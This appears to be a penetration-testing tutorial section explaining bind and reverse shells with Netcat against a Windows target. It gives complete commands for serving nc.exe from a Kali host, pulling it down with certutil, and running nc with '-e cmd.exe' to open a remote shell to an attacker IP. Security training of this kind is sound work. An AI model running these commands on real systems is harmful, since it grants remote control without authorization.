 ### 4.2. Bind Shells

A **bind shell** is a type of remote shell where the attacker connects to a listener on the target system. In order for this to work a listener needs to be running on the target system so that the attacker can connect to it and consequently obtain a remote shell. This type of shell is not preferred as the attacker directly connects to the target system and in most cases, ingress traffic is always blocked or flagged as suspicious. Nonetheless, it is very important to learn how bind shells work and how they can be setup with Netcat.

**Objective**: Your task is to setup a bind shell with Netcat.

In order to setup a bind shell with Netcat, we will need to transfer the nc.exe executable to the target system running Windows.

```shell
# The first step will involve navigating to the /usr/share/windows-binaries directory.
cd /usr/share/windows-binaries/

# We can then setup an HTTP server with Python within this directory by running the following command:
python -m SimpleHTTPServer 80

# You will then need to open up a command prompt, navigate to the Desktop directory and run the following command to download the nc.exe executable from the web server being hosted on the Kali Linux system.
certutil -urlcache -f http://<my_kali_IP/nc.exe nc.exe

# Setting up the bind shell listener on the Windows system.
.\nc.exe -nvlp 1234 -e cmd.exe

# Back to Kali shell
nc -nv <target_IP> 1234
```

### 4.3. Reverse Shells

**A reverse shell is** a type of remote shell where the target system connects to a listener on the attacker's system. In order for this to work the target system needs to connect to a listener on the attacker's system.

In a reverse shell, the target system initiates a connection back to the attacker, so no special tools like Netcat are needed on the target. However, this method requires the target to know the attacker's IP address, which introduces risks: the IP must be embedded in the payload, and if the payload is stored on disk, it can expose the attacker during forensic analysis. This makes reverse shells powerful but potentially revealing, especially if stealth is a priority.

```shell
# Transferring the Netcat executable to the Windows system
cd /usr/share/windows-binaries
python -m SimpleHTTPServer 80

# Navigate to the Desktop directory and run the following command to download the nc.exe executable from the web server being hosted on the Kali Linux system.
certutil -urlcache -f http://<my_kali_IP>/nc.exe nc.exe

# In the case of reverse shell we need to set up the Netcat listener on the attacker system, which in this case is Kali Linux.
nc -nvlp 1234

# We can now connect to the reverse shell listener running on the Kali Linux system from the Windows system by running the following command:
nc.exe -nv <my_kali_IP>1234 -e cmd.exe

# On the Kali system we can:
whoami
```
